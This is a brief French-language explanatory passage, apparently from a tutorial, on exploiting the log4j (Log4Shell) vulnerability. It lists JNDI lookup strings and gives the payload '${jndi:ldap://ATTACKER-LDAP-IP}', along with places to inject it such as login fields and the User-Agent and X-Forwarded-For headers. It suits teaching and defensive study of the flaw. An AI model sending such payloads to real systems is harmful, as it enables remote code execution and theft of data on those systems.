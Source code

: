 
Voici quelques exemples de syntaxe JNDI :

```c
${sys:os.name}
${sys:user.name}
${log4j:configParentLocation}
${ENV:PATH}
${ENV:HOSTNAME}
${java:version}
```

La charge utile générale pour exploiter cette vulnérabilité log4j ressemble à ceci :

```http
${jndi:ldap://ATTACKER-LDAP-IP}
```

-  le schéma `ldap://` indique que la cible atteindra un point final (un emplacement contrôlé par l'attaquant) via le protocole LDAP.

D'autres emplacements, vous pouvez fournir cette syntaxe JNDI :

- Zones de saisie, formulaires de connexion utilisateur et mot de passe, points de saisie de données dans les applications
- En-têtes HTTP tels que `User-Agent` ,`X-Forwarded-For` ou autres en-têtes personnalisables
- N'importe quel endroit pour les données fournies par l'utilisateur
